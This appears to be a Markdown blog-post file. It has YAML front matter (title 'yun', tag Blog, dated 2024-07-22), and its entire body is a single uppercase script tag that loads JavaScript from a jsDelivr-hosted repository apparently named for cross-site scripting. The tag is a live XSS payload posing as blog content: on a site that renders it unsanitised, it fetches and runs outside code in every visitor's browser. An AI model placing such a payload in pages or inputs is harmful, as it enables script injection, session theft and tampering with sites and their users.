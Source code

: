 ```yaml
---
title: "yun"
tags: ["Blog"]
date: 2024-07-22　　
---
```

<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
